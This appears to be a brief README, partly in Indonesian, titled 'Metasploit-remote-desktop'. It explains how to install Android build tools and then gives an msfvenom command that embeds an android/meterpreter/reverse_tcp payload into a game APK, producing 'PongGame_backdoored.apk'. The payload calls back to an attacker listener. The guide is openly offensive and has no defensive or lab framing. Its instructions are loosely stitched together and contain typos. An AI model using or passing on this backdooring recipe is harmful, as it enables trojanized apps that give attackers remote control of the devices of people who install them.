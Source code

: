 # Metasploit-remote-desktop
MSF: Embed MSF exploit dengan msfvenom
```html
install 
apt-get install zipalign apktool
```
```html
apt-get install google-android-build-tools-installer zipalign
```
```html

pilih situs https://dl.google.com/ untuk download
```

jika install google-android-build-tools-installer gagal, coba


You can get a list of actual held packages with:
```html
dpkg --get-selections | grep hold
```

Another method of troubleshooting may be to use aptitude rather than apt-get to try to install your package:
```html

sudo aptitude install google-android-build-tools-installer
```

msfvenom -x PongGame.apk -p android/meterpreter/reverse_tcp LHOST=192.168.100.2 LPORT=4895 -o PongGame_backdoored.apk

if need install jasigner
```html
apt install openjdk-11-jdk
```
```html
update-alternative --config java
```

pilih 1 


